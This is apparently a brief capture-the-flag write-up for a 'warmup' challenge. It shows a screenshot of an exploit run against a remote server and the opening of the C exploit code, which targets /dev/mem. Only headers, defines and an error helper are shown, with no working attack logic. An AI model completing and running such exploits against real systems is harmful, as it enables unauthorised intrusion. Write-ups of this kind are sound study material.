 apparently this is just a warmup challenge.

here is the exploit being ran againts the remote server:

<figure><img src="../../.gitbook/assets/image (240).png" alt="" width="563"><figcaption></figcaption></figure>

below is the exploit code:

{% code title="exploit.py" %}
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>
#include <pthread.h>
#include <string.h>

#define DEVICE "/dev/mem"  
#define START_ADDR 0xdeadc0de00000000
#define MEMORY_SIZE 0x10000000
int fd;

void error(const char *msg) {
    perror(msg);
    exit(1);
}

```